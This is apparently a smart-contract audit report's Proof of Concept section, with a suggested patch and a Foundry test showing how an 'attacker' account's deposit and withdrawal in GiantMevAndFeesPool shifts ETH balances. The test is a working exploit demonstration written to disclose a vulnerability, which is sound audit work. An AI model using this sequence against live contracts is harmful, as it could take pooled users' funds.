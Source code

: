 ### Proof of Concept

I wrote a test file for proof, but there is another `bug/vulnerability` which will make the `GiantMevAndFeesPool.withdrawETH` function break down. I submitted it as the other finding named "GiantLP with a transferHookProcessor cant be burned, users' funds will be stuck in the Giant Pool". You should fix it first by modifying the code

```solidity
if (_to != address(0)) {
    _distributeETHRewardsToUserForToken(
        _to,
        address(lpTokenETH),
        lpTokenETH.balanceOf(_to),
        _to
    );
}
```

I know modifying the project source code is controversial. Please believe me it's a bug needed to be fixed and it's independent of the current vulnerability.

test:  
`test/foundry/TakeFromGiantPools2.t.sol`

```solidity
pragma solidity ^0.8.13;

// SPDX-License-Identifier: MIT

import "forge-std/console.sol";
import {GiantPoolTests} from "./GiantPools.t.sol";

contract TakeFromGiantPools2 is GiantPoolTests {
    function testDWUpdateRate2() public{
        address feesAndMevUserOne = accountOne; vm.deal(feesAndMevUserOne, 4 ether);
        address feesAndMevUserTwo = accountTwo; vm.deal(feesAndMevUserTwo, 4 ether);
        // Deposit ETH into giant fees and mev
        vm.startPrank(feesAndMevUserOne);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
        vm.stopPrank();
        vm.startPrank(feesAndMevUserTwo);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
        giantFeesAndMevPool.withdrawETH(4 ether);
        vm.stopPrank();
        console.log("user one:", getBalance(feesAndMevUserOne));
        console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
        console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));
    }

    function getBalance(address addr) internal returns (uint){
        // just ETH
        return addr.balance;  // + giantFeesAndMevPool.lpTokenETH().balanceOf(addr);
    }

}
```
